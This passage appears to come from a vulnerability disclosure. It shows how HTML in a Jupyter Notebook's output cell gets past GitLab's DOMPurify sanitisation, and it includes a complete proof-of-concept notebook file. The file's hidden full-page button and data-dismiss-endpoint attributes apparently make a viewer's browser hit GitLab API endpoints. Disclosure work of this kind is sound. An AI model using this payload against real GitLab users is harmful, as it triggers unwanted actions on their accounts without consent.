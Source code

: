 Now to the attack. If an attacker creates a Jupyter Notebook there exists the possibility to add HTML in the output fields. This HTML will be sanitized by DOMPurify, but this will not stop the attack.

A file like this will do as a simple POC

```
{
  "cells": [
    {
      "metadata": { "trusted": true },
      "cell_type": "code",
      "source": "<h1>asd</h1>",
      "execution_count": 1,
      "outputs": [
        {
          "output_type": "display_data",
          "data": {
            "text/plain": "<IPython.core.display.HTML object>",
            "text/html": "<div class=\"js-feature-highlight\" data-dismiss-endpoint=\"https://gitlab.com/api/v4/todos/147611488/mark_as_done\" data-auto-devops-help-path=\"hej\" data-highlight-id=\"1\">asdf</div>\n<div class=\"js-new-user-signups-cap-reached\" data-dismiss-endpoint=\"https://gitlab.com/api/v4/projects/31573768/issues/1/todo\" data-defer-links=\"false\" data-feature-id=\"1\"><button style=\"background-color: rgba(0, 0, 0, 0); border: 0; cursor: default; height: 100%; left: 0; position: absolute; top: 0; width: 100%; z-index: 1000\" class=\"js-close\">hack</button></div>\n"
          },
          "metadata": {}
        }
      ]
    }
  ],
  "metadata": {
    "kernelspec": {
      "name": "python3",
      "display_name": "Python 3",
      "language": "python"
    },
    "language_info": {
      "name": "python",
      "version": "3.7.8",
      "mimetype": "text/x-python",
      "codemirror_mode": { "name": "ipython", "version": 3 },
      "pygments_lexer": "ipython3",
      "nbconvert_exporter": "python",
      "file_extension": ".py"
    }
  },
  "nbformat": 4,
  "nbformat_minor": 4
}
```

I have added a `feature-highlight` (another possible vector, see image) just to show when the attack is successful. As the main.js script is run with a timer, sometimes one has to refresh the page to have the payload "load up" (this could possibly be worked around). When the attack is loaded, the highlight div will turn into a blue dot.
